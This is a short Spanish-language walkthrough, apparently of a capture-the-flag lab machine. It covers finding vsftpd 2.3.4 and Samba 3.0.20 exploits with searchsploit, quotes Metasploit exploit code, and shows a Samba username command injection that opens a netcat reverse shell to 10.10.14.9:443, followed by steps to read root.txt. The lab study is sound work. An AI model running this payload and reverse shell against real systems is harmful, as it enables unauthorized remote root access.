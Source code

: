 smb samba
Despues de escanear y descubrir el puerto abierto la version es vulnerable, buscamos con 
```
searchsploit vsftpd 2.3.4
```

al encontralo copiamos es path que se encuentra del lado derecho y lo pegamos para traer el sploit a la carpeta en este caso es :

```
searchsploit -m unix/remote/49757.py
```

No funciono, entonces probar con samba:
``` searchsploit Samba 3.0.20```

lo copiamos a nuestro directorio
```searchsploit -m unix/remote/16320.rb```

Veo que utiliza lo siguiente para explocat el recurso:
```def exploit
                connect
                # lol?
                username = "/=`nohup " + payload.encoded + "`"
                begin
                       simple.client.negotiate(false)
                       simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
                rescue ::Timeout::Error, XCEPT::LoginError
                        # nothing, it either worked or it didn't ;)
                end
```

Entonces se utiliza el siguiente formato para explotarlo:

Este para ver los recursos disponibles:
```smbclient -L //IP_name -U ```
Para entrar a por ejemplo /tmp 
```smbclient  //10.10.10.3/tmp```

Para obtener root bash 
logon "/=`nohup nc -e /bin/bash IP 443`"
    logon "/=`nohup nc -e /bin/bash 10.10.14.9 443`"

Luego ejecuto esto para tener consola interactiva: 
```script /dev/null -c bash```

Y ya con eso deberia de quedar, si quisiera una consola mejorada ver 
[consola interactiva](:/3f6beb89628c4ae482f2bbd324840dc9)

Para buscar las root simplemente
```find / -name root.txt | xargs cat```

